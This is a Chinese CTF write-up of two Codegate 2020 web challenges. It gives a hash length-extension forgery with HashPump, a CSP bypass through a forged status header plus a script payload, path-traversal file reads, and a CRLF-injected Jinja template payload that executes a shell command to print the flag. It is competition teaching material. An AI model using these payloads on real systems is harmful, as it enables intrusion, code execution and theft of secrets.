

# Codegate 2020 Web Writeup
一共2道Web题

## CSP


题目一共三个页面`view.php`(API提交页面),`api.php`(通过验证输入的md5来加载自定义页面),`report.php`(提交url页面)都有相同的CSP:  

```
Content-Security-Policy: default-src 'self'; script-src 'none'; base-uri 'none';
```
完全禁用了javascript
`view.php`输入参数提交`name`,`p1`,`p2`后会生成一个`iframe`来显示`api.php`  
题目提供了`api.php`的源码:
```php
<?php
require_once 'config.php';

if(!isset($_GET["q"]) || !isset($_GET["sig"])) {
    die("?");
}

$api_string = base64_decode($_GET["q"]);
$sig = $_GET["sig"];


if(md5($salt.$api_string) !== $sig){
    die("??");
}

//APIs Format : name(b64),p1(b64),p2(b64)|name(b64),p1(b64),p2(b64) ...
$apis = explode("|", $api_string);
foreach($apis as $s) {
    $info = explode(",", $s);
    if(count($info) != 3)
        continue;
    $n = base64_decode($info[0]);
    $p1 = base64_decode($info[1]);
    $p2 = base64_decode($info[2]);

    if ($n === "header") {

        if(strlen($p1) > 10)
            continue;
        if(strpos($p1.$p2, ":") !== false || strpos($p1.$p2, "-") !== false) //Don't trick...
            continue;
        header("$p1: $p2");
    }
    elseif ($n === "cookie") {
        setcookie($p1, $p2);
    }
    elseif ($n === "body") {
        if(preg_match("/<.*>/", $p1))
            continue;
        echo $p1;
        echo "\n<br />\n";
    }
    elseif ($n === "hello") {
        echo "Hello, World!\n";
    }
}
```

其中`api.php`中`q`参数是`base64(base64(name),base64(p1),base64(p2))`后的值  
`sig`为`md5($salt."base64(name),base64(p1),base64(p2)")`的值,如果验证成功则正常显示

可以看到代码中有个注释为`//APIs Format : name(b64),p1(b64),p2(b64)|name(b64),p1(b64),p2(b64) ...`  
支持多个API输入,不过在`view.php`中我们只能输入产生一个API,所以先要构造能输入多个API的`sig`  
这里需要用到hash拓展攻击来构造md5,这里用的工具是[HashPump](https://github.com/bwall/HashPump)
首先在`view.php`将`name`,`p1`,`p2`都设置为空得到
`/api.php?sig=7f104404b0d414d18ab3efb831e333d7&q=LCw=`  
这样`q`解base64为`,,`,而`sig`的值为`md5($salt.',,')`  
由于我们暂时不知道`$salt`长度,为了验证  
首先`base64('hello')`得到`aGVsbG8=`,于是构造`,,|aGVsbG8=,,`如果能显示Hello, World!则说明攻击成功
通过`$ hashpump -s '7f104404b0d414d18ab3efb831e333d7' --data ',,' -a '|aGVsbG8=,,' -k 12`
修改这里`-k`的参数(也就是salt长度)不断去尝试  

发现`-k`设置为12时页面能正确返回

```
http://110.10.147.166/api.php?sig=c35ad82f4eb1496f83ba17c5e8bfaf49&q=LCyAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABwAAAAAAAAAHxhR1ZzYkc4PSws
```

到这里我们可控一个返回页面的`header`(冒号前有长度限制),`cookie`,`html`(通过"%0a"绕过`preg_match`限制,如`<script%0a>alert(1)</script%0a>`)
接下来是要绕过CSP  
通过php的`header()`设置的响应头，查看官方文档  

通过404报错页面得知服务器版本:`nginx/1.14.0 (Ubuntu)`  
不过源码`header()`中有个`:`不知是否影响，直接试一试

这样状态码就是可控的,而且http为某些状态码时可以发现响应包并无CSP  

构造修改header的同时添加html:

```
|aGVhZGVy,SFRUUC8xLjA=,MTIz|Ym9keQ==,PHNjcmlwdAo+YWxlcnQoMSk8L3NjcmlwdAo+,

http://110.10.147.166/api.php?sig=793a4e17484343a3cce447185718b27a&q=LCyAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABwAAAAAAAAAHxhR1ZoWkdWeSxTRlJVVUM4eExqQT0sTVRJenxZbTlrZVE9PSxQSE5qY21sd2RBbytZV3hsY25Rb01TazhMM05qY21sd2RBbyss
```
可成功触发js弹窗

构造获取cookie再通过report发送即可  

flag: CODEGATE2020{CSP_m34n5_Content-Success-Policy_n0t_Security}

## renderer
题目描述是用`nginx`和`flask`写的，且给了
Dockerfile:
```
FROM python:2.7.16

ENV FLAG CODEGATE2020{**DELETED**}

RUN apt-get update
RUN apt-get install -y nginx
RUN pip install flask uwsgi

ADD prob_src/src /home/src
ADD settings/nginx-flask.conf /tmp/nginx-flask.conf

ADD prob_src/static /home/static
RUN chmod 777 /home/static

RUN mkdir /home/tickets
RUN chmod 777 /home/tickets

ADD settings/run.sh /home/run.sh
RUN chmod +x /home/run.sh

ADD settings/cleaner.sh /home/cleaner.sh
RUN chmod +x /home/cleaner.sh

CMD ["/bin/bash", "/home/run.sh"]
```
和 run.sh:
```bash
#!/bin/bash

service nginx stop
mv /etc/nginx/sites-enabled/default /tmp/
mv /tmp/nginx-flask.conf /etc/nginx/sites-enabled/flask

service nginx restart

uwsgi /home/src/uwsgi.ini &
/bin/bash /home/cleaner.sh &

/bin/bash
```

存在文件读取漏洞
`http://110.10.147.169/static../run.sh`
最后找到源码

```
http://110.10.147.169/static../src/app/__init__.py
http://110.10.147.169/static../src/app/routers.py
```


85行`urllib`存在CRLF漏洞
70行`return render_template_string(log)`存在模板注入漏洞
需要通过CRLF构造各种header并将模板注入代码写入`log`中
由于`rip`可以由`XFF`伪造,而且将`rip`写入了`log`,故这里可任意写入

```
write log: "http://127.0.0.1/renderer/admin/ HTTP/1.1\x0d\x0aX-Forwarded-For: {{ config.__class__.__init__.__globals__['os'].popen('echo $FLAG').read() }}\x0d\x0a"

read log: "http://127.0.0.1/renderer/admin/ticket?ticket=6ed78a6aeebd7278438205a1a56d8aad6dfa3131 HTTP/1.1\x0d\x0aUser-Agent: AdminBrowser/1.337\x0d\x0aHost: 127.0.0.1\x0d\x0a\x0d\x0a1"
```


flag: CODEGATE2020{CrLfMakesLocalGreatAgain}